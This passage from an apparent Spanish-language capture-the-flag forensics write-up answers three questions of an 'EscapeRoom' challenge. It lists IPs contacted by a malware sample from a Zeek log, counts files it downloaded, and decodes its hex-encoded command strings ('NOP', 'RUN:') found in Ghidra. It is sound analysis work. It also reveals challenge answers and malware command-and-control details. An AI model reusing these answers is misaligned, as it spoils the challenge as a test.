  En **Window → Function Signature** o en el árbol de “Functions” puedes hacer doble clic y saltar a cualquier función.



---

<h3 style="color: #0d6efd;">Q15. Una de las IP con las que contactó el malware empieza por 17. Proporcione la IP completa.</h3>

Esto podemos verlo facil desde bash: 

```bash 
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap]
└─$ awk '{print $5}' conn.log | sort | uniq

10.252.174.188
174.129.57.253
23.20.23.147
23.21.35.128
23.22.228.174
id.orig_p
port
```

Desde luego se puede ver en wireshark y NetworkMiner. 

---

<h3 style="color: #0d6efd;">Q16. ¿Cuántos archivos ha solicitado el malware a servidores externos?</h3>

En mi caso me descargué todo el contenido, se pueden contar 9 exceptuando los que ya conocíamos, 1,2 y 3.

```bash 
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ ls -l
total 20408
-rw-r--r-- 1 kali kali    27482 May 16 01:53  1
-rw-r--r-- 1 kali kali   305702 May 16 01:53  2
-rw-r--r-- 1 kali kali      315 May 16 01:53  3
-rw-r--r-- 1 kali kali  2331738 May 16 01:53 '7eItdtTM+hmAc+xdp0j9sNXDw94VfQK+m+CgCpyx1AVPFSw='
-rw-r--r-- 1 kali kali   137282 May 16 01:53 'bfBGqSZqmaJq4upes8aBde3sLVnpNWHIZ9YcwH3X2hWRkOAN6UHQtZLFw='
-rw-r--r-- 1 kali kali  1921078 May 16 01:53 'Gqy0OALIsgM+6zU='
-rw-r--r-- 1 kali kali   279054 May 16 01:53 '+hw1kzWJxr4='
-rw-r--r-- 1 kali kali 11190410 May 16 01:53 'LKBrJ6jLSpMV+D7Rfww='
-rw-r--r-- 1 kali kali   137282 May 16 01:53 'RLOQHRHZygdpqRABPDSM='
-rw-r--r-- 1 kali kali  2331738 May 16 01:53 'U2JsT3QpORfz4ZpgWA31vZE='
-rw-r--r-- 1 kali kali   279054 May 16 01:53 'YhEhDdKmtM='
-rw-r--r-- 1 kali kali  1921078 May 16 01:53 'zB3hlgE='
```

---

<h3 style="color: #0d6efd;">Q17. ¿Cuáles son los comandos que el malware recibía de los servidores atacantes? Formato: separados por comas en orden alfabético </h3>

Para esto podemos seguir analizando el malware con ghidra, nos encontramos con una función llamda `decryptMessage`, entre el código podemos ver un par de condicionales que en sus valores a evaluar tiene código en hexadecimal, seguramente para evadir detecciones: 



Mas abajo se podra ver la segunda condicional. 

Si lo pasamos a ascci obtenemos lo siguiente: 

```bash 
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ echo "0x4e4f5000" | xxd -ps -r 
NOP                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ echo "0x52554e3a" | xxd -ps -r 
RUN:
```

El comando `NOP`(de "No Operational" en ensamblador) probablemente indique al malware, bajo ciertas condiciones, no ejecutarse para evitar detección. 
El comando `RUN` lo más seguro es que indique al malware empezar a ejecutarse, sea lo que sea que haga.

